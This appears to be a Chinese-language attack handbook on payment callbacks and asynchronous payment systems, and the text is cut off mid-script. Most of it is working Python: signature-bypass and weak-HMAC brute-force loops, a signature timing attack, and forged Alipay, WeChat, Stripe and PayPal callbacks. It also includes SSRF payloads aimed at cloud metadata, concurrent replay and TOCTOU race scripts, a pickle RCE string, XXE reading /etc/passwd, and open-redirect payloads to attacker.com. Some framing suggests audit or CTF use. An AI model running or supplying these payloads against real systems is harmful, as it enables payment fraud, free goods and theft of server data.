

# Payment Callback & Async Attack — 支付回调与异步攻击深度手册

> 支付系统的异步特性是最大的攻击面：回调签名、幂等、时序窗口、消息队列、延迟结算、webhook 隧道。本手册覆盖从回调伪造到分布式异步攻击链的全部技术。

## 0. 异步支付架构模型

理解攻击面前先理解架构。现代支付系统至少涉及 5 种异步模式：

```
┌──────────────────────────────────────────────────────────────────────┐
│                        异步支付全景                                   │
├────────────┬──────────────┬────────────────┬───────────┬─────────────┤
│  同步重定向  │   异步 Webhook  │   消息队列      │  定时轮询   │  长连接推送   │
│  return_url │  notify_url   │  MQ/Kafka/Redis │  cron job  │  WebSocket  │
├────────────┼──────────────┼────────────────┼───────────┼─────────────┤
│  攻击:      │  攻击:        │  攻击:          │  攻击:     │  攻击:       │
│  redirect   │  签名伪造     │  消息注入/重放   │  窗口竞态  │  劫持推送    │
│  open-redir │  SSRF 回调    │  消费顺序       │  重复扣款  │  伪造状态    │
│  param leak │  replay       │  死信队列       │  中间状态  │             │
└────────────┴──────────────┴────────────────┴───────────┴─────────────┘
```

### 关键时序窗口

```
create_order ──[t0]──▶ pending ──[t1]──▶ user_pay ──[t2]──▶ provider_notify ──[t3]──▶ server_verify ──[t4]──▶ deliver
                         │                                      │
                    [window: 可篡改]                      [window: 竞态/重放]
                    t0 ~ t1 (秒~小时)                       t2 ~ t4 (毫秒~秒)
```

## 1. 回调签名绕过 — 完整矩阵

### 1.1 签名算法识别与探测

```python
# sig_fingerprint.py — 自动识别支付回调签名算法
import requests, hashlib, hmac, re, json, itertools

BASE = "https://target"
S = requests.Session()

def probe_signature_algorithm(order_id: str, notify_url: str):
    """发探测回调，根据返回错误信息推断签名算法"""
    probes = {
        "empty": {"sign": ""},
        "md5_lower": {"sign": hashlib.md5(b"test").hexdigest()},
        "md5_upper": {"sign": hashlib.md5(b"test").hexdigest().upper()},
        "sha1": {"sign": hashlib.sha1(b"test").hexdigest()},
        "sha256": {"sign": hashlib.sha256(b"test").hexdigest()},
        "random": {"sign": "ThisIsNotAValidSignatureValue"},
        "null": {"sign": None},
        "missing": {},  # 不传 sign
    }

    for label, extra in probes.items():
        body = {
            "out_trade_no": order_id,
            "total_amount": "0.01",
            "trade_status": "TRADE_SUCCESS",
            **extra
        }
        r = S.post(BASE + notify_url, json=body, timeout=10)
        # 分析错误信息 → 推断算法
        error = r.text.lower()
        hints = {
            "md5": "md5" in error or "MD5" in error,
            "sha256": "sha256" in error or "SHA256" in error,
            "rsa": "rsa" in error or "public key" in error,
            "hmac": "hmac" in error or "secret" in error,
            "aes": "aes" in error or "decrypt" in error,
        }
        print(f"{label:12s} → {r.status_code} | hints: {[k for k,v in hints.items() if v]}")
```

### 1.2 常见签名构造缺陷

```python
# === 签名 = 空 ===
# 不传签名参数
PAYLOAD_NO_SIGN = {
    "out_trade_no": "ORDER_ID",
    "total_amount": "0.01",
    "trade_status": "TRADE_SUCCESS",
    # 故意不传 sign/signature
}

# === 签名参数名变异 ===
SIGN_FIELD_NAMES = [
    "sign", "sig", "signature", "signed", "hash", "hmac",
    "mac", "digest", "checksum", "token", "auth", "auth_code",
    "verify", "verification", "proof", "secret",
]

# === 签名算法降级 ===
# 如果签名算法从 GET param 中读取:
ALGORITHM_DOWNGRADE = {
    "sign_type": ["", "none", "None", "NONE", "null", "plain", "raw"],
    "sign_method": ["", "none", "plain"],
    "encrypt_type": ["none", "plaintext"],
}

# === 签名值变异 ===
SIGN_VALUE_BYPASS = [
    "",
    "0",
    "null",
    "undefined",
    "true",
    "false",
    "None",
    "nil",
    "NULL",
    "==",          # base64 填充
    "AAAA",         # 最小有效长度?
    [],             # 数组
    {},             # 对象
]

def sign_bypass_matrix(order_id: str, notify_url: str):
    """穷举签名绕过组合"""
    hits = []
    for alg_key, alg_vals in ALGORITHM_DOWNGRADE.items():
        for alg_val in alg_vals:
            for sign_val in SIGN_VALUE_BYPASS:
                body = {
                    "out_trade_no": order_id,
                    "total_amount": "0.01",
                    "trade_status": "TRADE_SUCCESS",
                    "sign": sign_val,
                    alg_key: alg_val,
                }
                r = S.post(BASE + notify_url, json=body, timeout=10)
                if r.status_code == 200 and "fail" not in r.text.lower():
                    hits.append({
                        "alg_key": alg_key, "alg_val": alg_val,
                        "sign_val": sign_val, "status": r.status_code,
                        "body": r.text[:200]
                    })
    return hits
```

### 1.3 HMAC 密钥暴力与弱密钥

```python
# HMAC 弱密钥字典
HMAC_WEAK_KEYS = [
    "", "secret", "key", "123456", "password",
    "admin", "test", "demo", "default", "api",
    "appsecret", "appkey", "token", "sign",
    "hmac_key", "private_key", "secret_key",
    "1234567890", "0000000000", "abcdefgh",
    "notify_key", "callback_secret", "webhook_secret",
    # 框架默认
    "base64:...",              # Laravel APP_KEY 前缀
    "change_me",
    "your-secret-here",
    "secret!",
]

def hmac_weak_key_test():
    """测试已知弱密钥"""
    import hmac as hmac_mod
    body_template = "out_trade_no=ORDER_ID&total_amount=0.01&trade_status=TRADE_SUCCESS"

    for key in HMAC_WEAK_KEYS:
        sig = hmac_mod.new(key.encode(), body_template.encode(), hashlib.sha256).hexdigest()
        r = S.post(BASE + "/notify",
                    data=body_template + f"&sign={sig}",
                    headers={"Content-Type": "application/x-www-form-urlencoded"})
        if r.status_code == 200:
            print(f"[!] WEAK HMAC KEY: '{key}' → {r.text[:150]}")
```

### 1.4 MD5 签名碰撞利用

```python
# 如果签名用 MD5(params + key) 且 key 已知/可爆:
# 构造 amount=0.01 和 amount=100.00 的 MD5 碰撞几乎不可能
# 但如果是 MD5(sign_type + body + key) 且 sign_type 可控:
# MD5("MD5" + body + key) vs MD5("md5" + body + key) → 不同!

# 更实际的攻击: 签名字符串注入
# sign = MD5(f"out_trade_no={order_id}&total_amount={amount}&key={secret}")
# 如果在 order_id 中注入 &total_amount=0.01:
# → MD5(f"out_trade_no=ORDER_&total_amount=0.01&total_amount=100.00&key=...")
# → 后端取第一个 total_amount=0.01, 但 MD5 包含了 &total_amount=0.01&total_amount=100.00

def sign_string_injection(order_id_template: str, original_amount: str):
    """在 order_id 中注入参数覆盖"""
    injection_order_id = f"{order_id_template}&total_amount=0.01"
    r = S.post(BASE + "/api/order/create", json={
        "out_trade_no": injection_order_id,
        "total_amount": original_amount,
    })
    # 如果签名由此 order_id 参与生成，且回调时后端取第一个 total_amount...
    return injection_order_id
```

### 1.5 签名时序攻击

```python
# 如果签名比较是逐字节的 (strcmp/memcmp):
# 正确的字节越多，响应时间越长 (因为提前返回失败 vs 继续比较)
# → 逐字节暴力签名

import statistics, time

def timing_attack_signature(order_id: str, prefix: str = ""):
    """逐字节推断 HMAC 签名 (需要多次请求)"""
    known = prefix
    charset = "0123456789abcdef"

    for pos in range(64):  # SHA256 hex = 64 chars
        timings = {}
        for c in charset:
            test_sign = (known + c).ljust(64, "0")
            r = S.post(BASE + "/notify", json={
                "out_trade_no": order_id,
                "total_amount": "0.01",
                "trade_status": "TRADE_SUCCESS",
                "sign": test_sign,
            })
            # 取中位数避免网络抖动
            elapsed = r.elapsed.total_seconds()
            timings[c] = elapsed
            time.sleep(0.02)

        # 找最慢的 → 可能是正确的字节
        best = max(timings, key=timings.get)
        known += best
        print(f"[{pos}] best={best} timing={timings[best]:.6f}s → sign: {known}")

    return known
```

## 2. 回调伪造 — 全参数构造

### 2.1 主流支付平台回调格式

```python
# 支付宝 (旧版 MD5 签名)
ALIPAY_CALLBACK = {
    "notify_type": "trade_status_sync",
    "notify_id": "RANDOM_NOTIFY_ID",
    "notify_time": "2024-01-01 12:00:00",
    "sign_type": "MD5",
    "sign": "FAKE_SIGN",
    "out_trade_no": "ORDER_ID",
    "subject": "test product",
    "trade_no": "FAKE_ALIPAY_TXN_001",
    "trade_status": "TRADE_SUCCESS",     # ← 关键
    "total_amount": "0.01",               # ← 必须与订单金额"一致"
    "buyer_id": "2088000000000000",
    "seller_id": "2088000000000001",
    "app_id": "TARGET_APP_ID",
}

# 微信支付 V2 (MD5)
WECHAT_V2_CALLBACK = """
<xml>
  <return_code><![CDATA[SUCCESS]]></return_code>
  <return_msg><![CDATA[OK]]></return_msg>
  <appid><![CDATA[TARGET_APPID]]></appid>
  <mch_id><![CDATA[TARGET_MCHID]]></mch_id>
  <nonce_str><![CDATA[RANDOM]]></nonce_str>
  <sign><![CDATA[FAKE_SIGN]]></sign>
  <result_code><![CDATA[SUCCESS]]></result_code>
  <openid><![CDATA[FAKE_OPENID]]></openid>
  <trade_type><![CDATA[JSAPI]]></trade_type>
  <bank_type><![CDATA[CFT]]></bank_type>
  <total_fee>1</total_fee>             <!-- 1 分 -->
  <cash_fee>1</cash_fee>
  <transaction_id><![CDATA[FAKE_WX_TXN_001]]></transaction_id>
  <out_trade_no><![CDATA[ORDER_ID]]></out_trade_no>
  <time_end><![CDATA[20240101120000]]></time_end>
  <trade_state><![CDATA[SUCCESS]]></trade_state>
</xml>
"""

# 微信支付 V3 (RSA/SM2)
WECHAT_V3_CALLBACK = {
    "id": "EVENT_ID",
    "create_time": "2024-01-01T12:00:00+08:00",
    "resource_type": "encrypt-resource",
    "event_type": "TRANSACTION.SUCCESS",
    "summary": "支付成功",
    "resource": {
        "original_type": "transaction",
        "algorithm": "AEAD_AES_256_GCM",
        "ciphertext": "...",   # AES-GCM 加密
        "associated_data": "transaction",
        "nonce": "...",
    }
}

# Stripe
STRIPE_CALLBACK = {
    "id": "evt_FAKE",
    "object": "event",
    "type": "payment_intent.succeeded",   # ← 关键
    "data": {
        "object": {
            "id": "pi_FAKE",
            "amount": 1,                    # ← 分
            "amount_received": 1,
            "currency": "usd",
            "status": "succeeded",
            "metadata": {"order_id": "ORDER_ID"},
        }
    }
}

# PayPal
PAYPAL_CALLBACK = {
    "event_type": "PAYMENT.SALE.COMPLETED",
    "resource": {
        "id": "FAKE_SALE_ID",
        "state": "completed",
        "amount": {"total": "0.01", "currency": "USD"},
        "invoice_number": "ORDER_ID",
        "custom": "ORDER_ID",
    }
}
```

### 2.2 回调中转 — SSRF / 内网隧道

```python
# 如果 notify_url 是客户端传入的且服务端会访问:
# → SSRF 到内网 → 伪造来自内网的回调

def notify_url_ssrf():
    """利用 notify_url 做内网 SSRF，伪造来自内网支付服务的回调"""
    SSRF_PAYLOADS = [
        # 云 metadata
        {"notify_url": "http://169.254.169.254/latest/meta-data/"},
        {"notify_url": "http://100.100.100.200/latest/meta-data/"},  # 阿里云
        {"notify_url": "http://metadata.google.internal/computeMetadata/v1/"},

        # 内网支付服务
        {"notify_url": "http://127.0.0.1:8080/admin"},
        {"notify_url": "http://localhost/internal/payment/confirm"},
        {"notify_url": "http://10.0.0.1/payment/callback"},
        {"notify_url": "http://172.16.0.1/api/notify"},

        # 绕过 localhost 过滤
        {"notify_url": "http://127.0.0.1.nip.io/payment/callback"},
        {"notify_url": "http://[::1]/payment/callback"},
        {"notify_url": "http://0x7f000001/payment/callback"},
        {"notify_url": "http://2130706433/payment/callback"},  # 127.0.0.1 的十进制

        # DNS rebinding
        {"notify_url": "http://7f000001.c0a80001.rbndr.us/payment/callback"},

        # CRLF 注入
        {"notify_url": "http://legit.com\r\nX-Internal: true"},
    ]

    for ssrf in SSRF_PAYLOADS:
        # 创建订单时将 notify_url 指向内网
        r = S.post(BASE + "/api/order/create", json={
            "product_id": 1,
            "amount": 0.01,
            "notify_url": ssrf["notify_url"],
        })
        print(f"notify_url={ssrf['notify_url'][:50]} → {r.status_code}")

def internal_notify_forgery():
    """如果知道内网有支付确认接口，直接打"""
    # 某些内部支付系统监听 0.0.0.0 且无鉴权
    INTERNAL_ENDPOINTS = [
        "http://127.0.0.1:8080/payment/confirm",
        "http://127.0.0.1:8081/notify",
        "http://127.0.0.1:3000/api/callback",
        "http://127.0.0.1:5000/webhook/payment",
        "http://127.0.0.1:8000/payment/success",
        "http://localhost/payment/paid",
        "http://payment-service.internal/notify",
    ]
    for url in INTERNAL_ENDPOINTS:
        try:
            r = requests.post(url, json={
                "order_id": "TARGET_ORDER",
                "status": "paid",
                "transaction_id": "INTERNAL_TXN_001",
            }, timeout=3)
            if r.status_code == 200:
                print(f"[!] INTERNAL NOTIFY: {url} → {r.text[:150]}")
        except:
            pass
```

## 3. 回调幂等性 & 重放攻击

### 3.1 幂等键探测与绕过

```python
# 支付回调的幂等通常靠 transaction_id 去重
# 绕过方法:

IDEMPOTENCY_ATTACKS = {
    # === transaction_id 空 ===
    "no_txn": {"transaction_id": ""},
    "null_txn": {"transaction_id": None},
    "missing_txn": {},  # 不传

    # === transaction_id 变化 ===
    "random_txn": lambda: {"transaction_id": f"TX{random.randint(1,9999999)}"},
    "incremental_txn": lambda i: {"transaction_id": f"TX{1000+i}"},

    # === 多字段幂等 ===
    "multi_key": {"transaction_id": "TX1", "out_trade_no": "ORDER_A",
                  "notify_id": "NEW_NOTIFY_ID"},  # 混用不同幂等键

    # === 幂等窗口 ===
    # 某些系统在交易完成后 N 秒内仍接受重放
    "replay_v1": {"transaction_id": "SAME_TX", "timestamp": "now()"},
    "replay_v2": {"transaction_id": "SAME_TX", "notify_id": "NEW_ID"},

    # === 并发突破幂等 ===
    # 同时发两个相同 transaction_id 的回调
    # 幂等检查不是原子操作 → 两个都通过
}

def idempotency_bypass_test(order_id: str):
    # 先发一个成功回调
    S.post(BASE + "/notify", json={
        "out_trade_no": order_id,
        "transaction_id": "IDEMPOTENT_TEST_001",
        "trade_status": "TRADE_SUCCESS",
        "total_amount": "0.01",
    })

    # 再尝试各种重放
    replays = [
        {"transaction_id": "IDEMPOTENT_TEST_001", "out_trade_no": order_id, "trade_status": "TRADE_SUCCESS", "total_amount": "100.00"},  # ← 相同 txn 不同金额
        {"transaction_id": "IDEMPOTENT_TEST_001", "out_trade_no": "OTHER_ORDER", "trade_status": "TRADE_SUCCESS"},                     # ← 相同 txn 不同订单
        {"transaction_id": "IDEMPOTENT_TEST_001" + " "},                                                                               # ← 尾部空格
        {"transaction_id": "idempotent_test_001"},                                                                                      # ← 大小写
        {"transaction_id": "IDEMPOTENT_TEST_001\x00"},                                                                                  # ← null byte
    ]
    for i, replay in enumerate(replays):
        r = S.post(BASE + "/notify", json=replay)
        print(f"Replay {i}: {r.status_code} | {r.text[:150]}")
```

### 3.2 回调重放竞态

```python
# callback_race.py — 批量并发回调和重放
import concurrent.futures, itertools

def callback_race(order_id: str, count: int = 100):
    """同时发送大量回调，利用幂等检查窗口"""
    payloads = []

    # 策略 1: 相同 tx_id 并发 (测试幂等原子性)
    for i in range(count):
        payloads.append({
            "out_trade_no": order_id,
            "transaction_id": "RACE_SAME_TX",
            "trade_status": "TRADE_SUCCESS",
            "total_amount": "0.01",
        })

    # 策略 2: 不同 tx_id 并发 (测试并发发货)
    for i in range(count):
        payloads.append({
            "out_trade_no": order_id,
            "transaction_id": f"RACE_UNIQUE_TX_{i}",
            "trade_status": "TRADE_SUCCESS",
            "total_amount": "0.01",
        })

    def send(payload):
        r = S.post(BASE + "/notify", json=payload, timeout=20)
        return r.status_code, r.text[:120]

    with concurrent.futures.ThreadPoolExecutor(max_workers=50) as ex:
        futs = [ex.submit(send, p) for p in payloads]
        results = [f.result() for f in concurrent.futures.as_completed(futs)]

    # 检查: 权益是否被多次发放?
    success_count = sum(1 for code, text in results if code == 200 and "success" in text.lower())
    print(f"Success: {success_count} / {count}")
    if success_count > 1:
        print(f"[!] IDEMPOTENCY BROKEN: {success_count} duplicates!")
    return results
```

## 4. 异步时序竞态 — TOCTOU 深度利用

### 4.1 支付确认前的订单修改

```python
# 时序窗口: 用户支付 → 支付平台处理 (2-5s) → 回调到达 → 服务端处理
# 如果在这段时间内修改订单状态/金额/收货地址:

def pay_confirm_race():
    """支付成功回调和订单修改的竞态"""
    # Step 1: 创建高价订单
    r = S.post(BASE + "/api/order/create", json={"product_id": 1, "amount": 999})
    order_id = r.json()["order_id"]

    # Step 2: 拿到支付链接 (但先不付)
    r = S.post(BASE + "/api/pay", json={"order_id": order_id})
    pay_url = r.json().get("pay_url")

    # Step 3: 真正支付 (用真实支付渠道) 的同时，并发:
    def confirm_payment():
        # 模拟支付平台回调
        return S.post(BASE + "/notify", json={
            "out_trade_no": order_id,
            "trade_status": "TRADE_SUCCESS",
            "total_amount": "999",  # ← 原始金额
        })

    def modify_order():
        # 尝试把订单改成低价
        return S.put(BASE + f"/api/order/{order_id}", json={
            "amount": 0.01,
            "plan": "premium",  # 但要高价权益
        })

    def cancel_and_new():
        # 取消 + 新订单 (旧 order_id 可能仍可用)
        S.post(BASE + f"/api/order/{order_id}/cancel")
        return S.post(BASE + "/api/order/create", json={
            "product_id": 1, "amount": 0.01,
            "old_order_id": order_id,  # 关联旧订单
        })

    with concurrent.futures.ThreadPoolExecutor(max_workers=3) as ex:
        f1 = ex.submit(confirm_payment)
        time.sleep(0.1)
        f2 = ex.submit(modify_order)
        f3 = ex.submit(cancel_and_new)

    print(f"Notify: {f1.result().text[:200]}")
    print(f"Modify: {f2.result().text[:200]}")
    print(f"Cancel+New: {f3.result().text[:200]}")
```

### 4.2 发货/确认的 TOCTOU

```python
# 场景: paid → delivering → delivered 之间的窗口
# 或: 平台回调 → DB 写入 → 发货任务之间的窗口

def delivery_toctou(order_id: str):
    """在支付确认后、发货前竞态"""

    def trigger_notify():
        # 触发支付成功回调
        S.post(BASE + "/notify", json={
            "out_trade_no": order_id,
            "trade_status": "TRADE_SUCCESS",
        })

    def request_refund():
        # 在发货前发起退款
        S.post(BASE + f"/api/order/{order_id}/refund")

    def change_delivery():
        # 修改收货地址 (可能是其他用户的)
        S.put(BASE + f"/api/order/{order_id}", json={
            "delivery_address": "attacker_address",
            "delivery_email": "attacker@evil.com",
        })

    def claim_entitlement():
        # 直接调权益领取接口
        S.get(BASE + f"/api/order/{order_id}/deliver")

    with concurrent.futures.ThreadPoolExecutor(max_workers=4) as ex:
        ex.submit(trigger_notify)
        time.sleep(0.05)
        ex.submit(request_refund)
        ex.submit(change_delivery)
        ex.submit(claim_entitlement)
```

## 5. 消息队列攻击

### 5.1 MQ 注入与消息伪造

```python
# 如果支付系统用 RabbitMQ / Kafka / Redis 做异步:
# 攻击面: 消息格式、序列化、路由键

MQ_ATTACK_VECTORS = {
    # === RabbitMQ ===
    "rabbitmq_default_creds": ("guest", "guest"),
    "rabbitmq_management_api": "http://localhost:15672/api/",

    # 消息注入 (如果能接触到 MQ)
    "inject_payment_success": {
        "routing_key": "payment.success",
        "payload": {
            "order_id": "TARGET_ORDER",
            "status": "paid",
            "amount": 0.01,
        }
    },

    # 死信队列投毒
    "dead_letter_poison": {
        # 让正常消息进入 DLQ，然后用无效消息占满重试
        # 导致正常消息被丢弃
    },

    # === Kafka ===
    "kafka_topic_injection": "payment-notify",
    "kafka_null_key": None,  # null key → 同 partition → 顺序保证

    # === Redis ===
    "redis_pubsub": "SUBSCRIBE payment:notify → PUBLISH payment:notify FAKE_MSG",
    "redis_list": "LPUSH payment:queue FAKE_MSG",

    # === 序列化漏洞 ===
    # Python pickle / Java ObjectInputStream / PHP unserialize
    "pickle_rce": "cos\nsystem\n(S'id'\ntR.",
    "java_gadget": "使用 ysoserial 生成 CommonsCollections payload",
}
```

### 5.2 消息重放与乱序

```python
# 如果消息队列没有做幂等或顺序校验:
def mq_replay_scenario():
    """模拟消息队列重放"""
    # 真实场景: 支付回调 → MQ → 消费者 → 发货
    # 如果 MQ 消息被重放:
    # (1) 消费者重启重平衡 (Rebalance) → 消息重新投递
    # (2) 手动 ACK 前进程崩溃 → 消息回到队列
    # (3) 死信队列 → 超时后重入主队列

    # 攻击: 如果知道消息格式，直接往 MQ 发伪造消息
    pass
```

## 6. 延迟结算 & 对账窗口利用

### 6.1 T+N 结算攻击

```python
# 许多支付平台不是实时结算的:
# T+0: 当天结算
# T+1: 次日结算
# T+7: 7 天结算
# 在结算前，可能可以通过退款/争议操作破坏系统状态

def pre_settlement_attack(order_id: str):
    """利用结算前的窗口期"""
    attacks = [
        # 1. 支付 → 退款 → 但权益在结算前已发放
        #    结算时发现退款 → 扣除余额 → 但权益未回收
        {
            "name": "pay_refund_entitlement",
            "flow": [
                ("pay", "支付 100 元"),
                ("deliver", "立即发放权益"),
                ("refund", "在结算前退款"),
                ("settle", "T+1 结算 → 扣除余额 → 但权益还在"),
            ]
        },
        # 2. 支付 → 提现权益 → 退款
        #    如果权益是余额/积分/卡密等可转移物
        {
            "name": "withdraw_then_refund",
            "flow": [
                ("recharge", "充值 100 元"),
                ("withdraw_credits", "把 100 积分转给其他账号"),
                ("refund", "退款 100 元"),
                # 结果: 主账号余额 100, 其他账号也有 100 积分
            ]
        },
        # 3. 对账差异
        {
            "name": "reconciliation_gap",
            "flow": [
                ("create", "创建 1 元订单"),
                ("notify_fake", "伪造 0.01 元支付成功回调"),
                ("deliver", "系统按 1 元订单发货"),
                ("reconcile", "T+1 对账: 1 元未支付 → 补扣? 冲正?"),
            ]
        },
    ]
```

### 6.2 对账绕过探测

```python
def reconciliation_probe():
    """探测对账机制"""
    # 如果系统在回调后还做 T+1 对账:
    # - 对账发现差异 → 补扣 → 余额变负?
    # - 对账发现差异 → 冲正订单 → 但权益已消耗?

    # 探测方法:
    # 1. 创建一个明知会有对账差异的订单
    # 2. 观察 T+1 后的处理逻辑
    # 3. 如果补扣后余额变负 → 可以无限消费

    pass
```

## 7. 回调 URL 参数泄露与 CSRF

### 7.1 return_url 敏感参数

```python
# return_url 中经常带敏感参数:
# /pay/return?out_trade_no=xxx&total_amount=100&trade_no=xxx&sign=xxx
# 如果 return_url 是 Open Redirect → 参数泄漏给第三方

SENSITIVE_RETURN_PARAMS = [
    "out_trade_no", "trade_no", "total_amount",
    "sign", "sign_type", "trade_status",
    "openid", "buyer_id", "seller_id",
    "appid", "mch_id", "transaction_id",
    "auth_code", "access_token",
]

def return_url_leak_test():
    """测试 return_url 是否会泄漏支付参数"""
    # 如果 return_url 可控且能做 Open Redirect:
    redirect_payloads = [
        "https://attacker.com/steal",
        "//attacker.com/steal",
        "https://legit.com%40attacker.com/steal",
        "https://legit.com#@attacker.com/steal",
        "https://legit.com/redirect?url=https://attacker.com/steal",
    ]
```

### 7.2 回调 GET 请求 CSRF

```python
# 如果支付成功是 GET /pay/success?order_id=xxx
# 且没有 CSRF 保护:
# → 诱导受害者访问此 URL → 确认支付

def callback_csrf():
    """回调 GET 请求的 CSRF 攻击"""
    # 攻击者创建订单 → 不支付
    # 诱导管理员/用户访问:
    #   GET /pay/success?order_id=ATTACKER_ORDER_ID
    # → 状态变为 paid → 发货给攻击者

    # 或者: 管理员审核订单时需要点击"确认付款"
    # → 
    pass
```

## 8. WebSocket / SSE 实时推送劫持

### 8.1 支付状态推送伪造

```python
# 如果支付结果通过 WebSocket/SSE 推送:
# ws://target/payment/status?order_id=xxx
# 可能通过 CSWSH (Cross-Site WebSocket Hijacking) 劫持

def websocket_hijack_test():
    """测试 WebSocket 支付状态推送的安全性"""
    # 探测: 连接是否需要认证?
    import websocket

    ws = websocket.WebSocket()
    ws.connect("wss://target/payment/status?order_id=ORDER_ID")
    # 如果直接连接成功且收到支付状态 → 可能:
    # 1. 无认证 → 任意监听他人订单状态
    # 2. 消息可伪造 → 前端信任推送内容

    # 测试: 如果前端根据推送的 status 来解锁页面
    # 用 Burp 或代理修改 WS 消息内容
    pass
```

### 8.2 SSE 事件注入

```python
# Server-Sent Events 推送支付状态
# GET /api/payment/events?token=xxx
# 如果 token 可预测或可复用:
# → 监听他人支付状态 → 获取 flag/challenge 中隐藏信息

def sse_event_hijack():
    SSE_PATHS = [
        "/api/payment/events",
        "/api/sse/payment",
        "/payment/stream",
        "/events/payment",
    ]
    for path in SSE_PATHS:
        try:
            r = S.get(BASE + path, stream=True, timeout=5)
            if r.status_code == 200 and "text/event-stream" in r.headers.get("content-type", ""):
                print(f"[!] Public SSE: {path}")
        except:
            pass
```

## 9. 分布式异步攻击链

### 9.1 跨服务异步攻击

```python
# 微服务架构: 支付服务 → 订单服务 → 权益服务 → 发货服务
# 每个服务之间是异步通信 → 每个边界都是攻击面

def cross_service_async_attack():
    """微服务异步攻击链"""
    chain = {
        "step1_payment_bypass": {
            "attack": "绕过支付服务的金额校验",
            "async_to": "订单服务 (MQ/kafka)",
            "exploit": "订单服务接收消息 → 不校验金额 → 直接改状态"
        },
        "step2_order_state": {
            "attack": "订单状态变为 paid",
            "async_to": "权益服务 (gRPC/HTTP)",
            "exploit": "权益服务收到 OrderPaid 事件 → 不检查支付金额 → 按订单 plan 发权益"
        },
        "step3_entitlement": {
            "attack": "权益已发放",
            "async_to": "发货服务",
            "exploit": "发货服务处理 EntitlementGranted → 发实体商品/flag"
        },
        "step4_reconciliation": {
            "attack": "T+1 对账发现差异",
            "async_to": "补偿服务",
            "exploit": "补偿逻辑: 金额不足则扣余额 → 余额变负 → 继续消费"
        },
    }
    return chain
```

### 9.2 Saga 模式攻击

```python
# Saga: 分布式事务的补偿模式
# Try → Confirm → Cancel
# 如果 Cancel 阶段失败:
#   → 资源被锁定，无法释放
#   → 或 Confirm 成功后 Cancel 仍被调用

def saga_attack():
    """攻击 Saga 分布式事务"""
    # Try: 锁定库存，扣减余额
    # Confirm: 确认订单，发放权益
    # Cancel: 取消订单，解锁库存，退还余额

    # 攻击:
    # 1. Try 成功 → 余额已扣
    # 2. 并发: Confirm + Cancel
    # 3. 如果 Confirm 先到但 Cancel 也执行了 → 余额退 + 权益到
    # 4. 如果 Cancel 先到但 Confirm 的 MQ 消息还在 → 余额退还 + 后续 Confirm 又扣余额
    pass
```

## 10. 回调 XML / 编码攻击

### 10.1 XML 回调攻击 (微信 V2 类)

```python
# 如果回调是 XML 格式:
XML_ATTACKS = {
    # XXE
    "xxe": """<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<xml><out_trade_no>&xxe;</out_trade_no></xml>""",

    # Billion Laughs (XML bomb)
    "billion_laughs": """<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<xml><out_trade_no>&lol3;</out_trade_no></xml>""",

    # XInclude
    "xinclude": """<xml xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include href="file:///etc/passwd" parse="text"/>
</xml>""",

    # XML Signature Wrapping (类似 SAML)
    "signature_wrapping": """<xml>
<legit_sign><sign>REAL_SIGN</sign></legit_sign>
<fake_body><out_trade_no>ORDER_ID</out_trade_no><total_fee>1</total_fee></fake_body>
</xml>""",
}
```

### 10.2 Content-Type 攻击

```python
# 不同 Content-Type 可能导致不同解析路径
CONTENT_TYPE_ATTACKS = {
    # JSON → form → XML → multipart
    "json": "application/json",
    "xml": "application/xml",
    "form": "application/x-www-form-urlencoded",
    "multipart": "multipart/form-data",
    "text": "text/plain",
    "yaml": "application/x-yaml",

    # 双 Content-Type
    "dual": "application/json, application/xml",

    # 字符集变体
    "json_utf16": "application/json; charset=utf-16",
    "json_utf7": "application/json; charset=utf-7",
}
```

## 11. 综合攻击链



## 12. 完整自动化探测脚本

```python
# payment_callback_audit.py — 支付回调全自动化审计
# 用法: python payment_callback_audit.py --order-id ORDER_ID --notify-url /notify

import argparse, hashlib, hmac, json, random, time, threading
import concurrent.futures, requests
from typing import Dict, List, Any, Optional
from dataclasses import dataclass, field

@dataclass
class Finding:
    name: str
    severity: str  # critical, high, medium, low
    description: str
    evidence: Dict[str, Any] = field(default_factory=dict)

class PaymentCallbackAuditor:
    def __init__(self, base_url: str, order_id: str, notify_path: str):
        self.base = base_url.rstrip("/")
        self.order_id = order_id
        self.notify_url = notify_path
        self.s = requests.Session()
        self.s.headers.update({"User-Agent": "ReverseLab-CallbackAuditor/2.0"})
        self.findings: List[Finding] = []

    def full_audit(self) -> List[Finding]:
        """跑全部检测"""
        checks = [
            self.check_empty_signature,
            self.check_sign_algorithm_downgrade,
            self.check_type_juggling_sign,
            self.check_missing_sign,
            self.check_transaction_id_bypass,
            self.check_amount_tampering,
            self.check_race_condition,
            self.check_status_bypass,
            self.check_content_type_switch,
            self.check_xml_xxe,
            self.check_notify_url_ssrf,
            self.check_weak_hmac_keys,
        ]
        for check in checks:
            try:
                check()
            except Exception as e:
                self.findings.append(Finding(
                    name=check.__name__,
                    severity="low",
                    description=f"Check error: {e}"
                ))
        return self.findings

    def _notify(self, data: dict, content_type: str = "application/json",
                extra_headers: dict = None, raw_data: str = None):
        headers = {"Content-Type": content_type}
        if extra_headers:
            headers.update(extra_headers)
        url = self.base + self.notify_url
        if raw_data:
            return self.s.post(url, data=raw_data, headers=headers, timeout=10)
        if "json" in content_type:
            return self.s.post(url, json=data, headers=headers, timeout=10)
        return self.s.post(url, data=data, headers=headers, timeout=10)

    def check_empty_signature(self):
        """空签名测试"""
        payloads = [
